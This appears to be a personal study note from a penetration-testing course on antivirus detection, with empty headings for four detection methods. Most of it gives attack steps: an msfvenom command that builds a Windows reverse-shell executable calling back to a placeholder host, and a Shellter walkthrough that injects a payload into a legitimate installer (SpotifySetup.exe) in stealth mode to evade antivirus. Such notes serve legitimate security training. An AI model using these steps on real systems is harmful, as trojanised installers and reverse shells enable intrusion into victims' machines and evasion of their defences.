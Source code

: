 ```yaml
---
title: 10 - AV Detection Methods
updated: 2025-04-23 11:14:49Z
created: 2025-04-23 10:56:02Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Signature-Based Detection
## Heuristic-Based Detection
## Behaviour-Based Dection
## Machine-Learning Detection
* * *
1. Create a **reverse shell** executable using **msfvenom**
`msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe > binary.exe`
2. Run a virus scan on the executable:
`firefox https://www.virustotal.com/#/home/upload`
* * *
## Automating payloads with **Shellter**
Shellter attempts to use the exsting PE Import Address Table (IAT)  entries to locate functions that will be used for the memory allocation, transfer and execution of the payload.

1. Launch `shellter` from kali, choose Auto mode
2. Select a target executable to inject malicious code:
eg `/home/kali/Downloads/SpotifySetup.exe`
3. Enable Stealth Mode : **Y**
4. Use a listed payload : **L**
5. Select appropriate payload